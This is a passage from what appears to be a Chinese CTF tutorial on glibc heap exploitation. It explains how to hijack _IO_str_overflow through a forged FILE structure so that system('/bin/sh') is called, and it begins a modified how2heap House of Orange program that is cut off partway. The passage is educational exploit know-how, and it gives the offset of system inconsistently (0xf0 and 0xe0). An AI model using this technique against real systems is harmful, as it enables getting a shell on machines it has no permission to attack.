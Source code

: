    利用以下代码来劫持程序流程：
   
   ```c
   	  new_buf = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);
   ```
   
   需要满足一下条件，来**绕过判断** ，是程序来到该位置：
   
   * fp->_flags & _IO_NO_WRITES **为假** 
   * (pos = **fp->_IO_write_ptr - fp->_IO_write_base**) >= (**(fp->_ IO_buf_end - fp->_IO_buf_base)** + flush_only(1)) 为真
   * fp->_flags & _IO_USER_BUF **为假** 
   * (fp->_ IO_buf_end - fp->_IO_buf_base) + 100 **不能为负数** 
   
   下面的条件来**getshell** ：
   
   * new_size = 2 * (fp->_ IO_buf_end - fp->_IO_buf_base) + 100; 应当等于 **/bin/sh字符串** 对应的地址
   * fp+0xf0指向system地址
   
   看一下_IO_strfile这个结构体，其中又涉及到 _IO_str_fields和 _IO_streambuf两个结构体，就能明白为什么**system的地址要填在fp+0xe0**：
   
   ![image-20240821153756495](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408211537576.png)
   
   将**_IO_2_1_stdin_强制转化为_IO_strfile_类型**后输出，观察**_allocate_buffer偏移**情况（因为最后函数是通过 _allocate_buffer来调用的）：
   
   <img src="https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408211549874.png" alt="image-20240821154952691" style="zoom:50%;" />
   
   
   
   最后构造：
   
   ```c
   _flags = 0
   _IO_write_base = 0
   _IO_write_ptr = (binsh_in_libc_addr -100) / 2 +1
   _IO_buf_end = (binsh_in_libc_addr -100) / 2 
   
   //_freeres_list = 0x2
   //_freeres_buf = 0x3
   _mode = -1
   
   vtable = _IO_str_overflow - 0x18 = _IO_str_jumps
   fp+0xf0 -> system_addr
   ```

#### 实例：

1. 修改了 how2heap 的 houseoforange 代码，来自己动手调试一下。

   ```c
   #include <stdio.h>
   #include <stdlib.h>
   #include <string.h>
   int winner ( char *ptr);
   int main()
   {
       char *p1, *p2;
       size_t io_list_all, *top;
       // unsorted bin attack
       p1 = malloc(0x400-16);
       top = (size_t *) ( (char *) p1 + 0x400 - 16);
       top[1] = 0xc01;
       p2 = malloc(0x1000);
       io_list_all = top[2] + 0x9a8;
       top[3] = io_list_all - 0x10;
       // _IO_str_overflow conditions
       char binsh_in_libc[] = "/bin/sh"; // we can found "/bin/sh" in libc, here i create it in stack
       // top[0] = ~1;
   ```